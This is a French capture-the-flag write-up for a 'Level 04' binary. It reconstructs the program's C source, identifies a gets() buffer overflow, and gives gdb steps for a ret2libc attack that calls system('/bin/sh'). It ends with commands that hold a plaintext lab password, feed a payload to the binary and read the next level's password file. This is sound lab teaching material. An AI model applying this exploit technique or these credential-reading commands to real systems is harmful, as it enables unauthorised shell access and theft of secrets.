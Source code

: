 # Level 04

## Analyse du binaire

Lorsqu'on exécute le binaire, le message "Give me some shellcode, k" est affiché sur l'entré standard puis un input est attendu sur l'entrée standard. Ensuite le message "child is exiting..." est affiché.

On peut réécrire un code source en C de cette manière :

```c
int main(int argc, const char **argv)
{
	uint a;			  // esp+0x1c
	char buffer[128]; // esp+0x20
	uint b;			  // esp+0xa0
	uint c;			  // esp+0xa4
	uint d;			  // esp+0xa8
	pid_t child;	  // esp+0xac

	child = fork();
	bzero(buffer, 128);
	d = 0;
	a = 0;

	if (!child)
	{
		prctl(PR_SET_PDEATHSIG, 1);
		ptrace(PTRACE_TRACEME, 0, 0, 0);
		puts("Give me some shellcode, k");
		gets(buffer);
		return (0);
	}
	while (d != 11)
	{

		wait(&a);
		b = a;
		if (b & 0x7f != 0)
		{
			c = a;
			int tmp = (c & 0x7f + 1) >> 1;
			char last_byte = ((char *)&a)[3];
			last_byte >>= 1;
			if (last_byte > 0)
			{
				puts("child is exiting...");
				return 0;
			}
			d = ptrace(PTRACE_PEEKUSER, child, 2, 0);
		}
	}
	puts("no exec() for you");
	kill(child, SIGKILL);
}
```

La faille ici vient de l'utilisation de la fonction _gets_.

Le message sur la sortie standard nous pousse à insérer du shellcode et à l'exécuter. Cependant cela ne donne rien et on obtient le message _no exec() for you_.

## Ret2libc

On peut essayer d'utiliser un **ret2libc** et faire un appel à la fonction _system_.

On va donc écraser l'**eip sauvegardé** pour le remplacer par la fonction _system_ ayant pour argument "/bin/sh" et donc lancer un shell.

Il nous faut dans un premier temps, l'adresse de la fonction _system_.

On peut l'obtenir de cette manière avec gdb :

```gdb
b main
r
p system
```

Il faut ensuite une adresse qui pointe vers la chaîne de caractères "/bin/sh". On pourrait donc par exemple écrire dans une variable d'environnement "/bin/sh" et prendre l'adresse de cette variable.

On peut utiliser le programme suivant pour obtenir l'adresse exacte de la variable d'environement depuis la vm :

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	if (argc != 2)
	{
		printf("%s <ENV_VAR>\n", argv[0]);
		return 1;
	}
	char* ptr = getenv(argv[1]);
	printf("The address of environment variable \"%s\" is %p\n", argv[1], ptr);
	return 0;
}
```

Plus simple, on peut rechercher la chaîne de caractères "/bin/sh" qui est présente dans la libc. Pour ce faire avec gdb :

```gdb
b main
r
find __libc_start_main,+99999999,"/bin/sh"
```

ou avec gdb peda :

```
b main
r
find "/bin/sh"
```

Il nous reste plus qu'à trouver le padding entre notre buffer et l'**eip sauvegardé**.

Pour le buffer on peut l'obtenir de cette manière :

```gdb
b *0x0x080486cd
r
p $esp+0x20
```

et pour l'**eip sauvegardé** :

```gdb
b main
r
i f
```

La commande `i f` (info frame) affiche sur la dernière ligne, la valeur de l'**eip sauvegardé**.

On peut donc générer notre shellcode (voir Ressources/generator.cpp).

## Commandes

Depuis l'hôte :

```bash
make && ./generator && sshpass -p 'kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf' scp -P 4242 shellcode level04@localhost:/tmp/
```

Sur la vm :

```bash
cat /tmp/shellcode - | ./level04
cat /home/users/level05/.pass
```

## Sources

- https://beta.hackndo.com/retour-a-la-libc/
